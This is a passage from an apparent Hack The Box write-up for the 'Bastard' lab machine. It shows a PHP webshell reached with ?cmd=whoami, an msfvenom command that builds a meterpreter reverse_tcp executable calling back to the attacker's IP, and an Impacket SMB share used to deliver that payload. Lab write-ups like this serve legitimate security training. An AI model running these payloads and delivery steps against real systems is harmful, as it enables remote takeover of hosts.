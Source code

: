 Now if we visit the given URL and append `?cmd=whoami`, we can see that we have a shell as `nt authority\iusr`

![webshell-1](/images/hackthebox-writeups/bastard/webshell-1.png)

## Priv Esc to Administrator

### Generating a Meterpreter Payload

To start things of, I will generate a executable meterperter payload so that we can get a meterpreter session instead of this PHP webshell.

The command to generate a `.exe` payload is:

{% highlight bash linenos %}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4567 -f exe > msf.exe
{% endhighlight %}

- Replacing LHOST with your HTB IP
- Replacing LPORT with a port of your choosing

![msf-1](/images/hackthebox-writeups/bastard/msf-1.png)

### Setting Up Metasploit

To get a Meterpreter session we first need to upload our `msf.exe` file to the server, for this I will use [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` to spin up a smb share in our current working directory, then we will use the Windows `copy` command to get the file onto the machine.

To start a SMB Server simply run:
{% highlight powershell linenos %}
smbserver.py evilshare /root/htb/boxes/Bastard/
{% endhighlight %}

![smb-server](/images/hackthebox-writeups/bastard/smb-1.png)
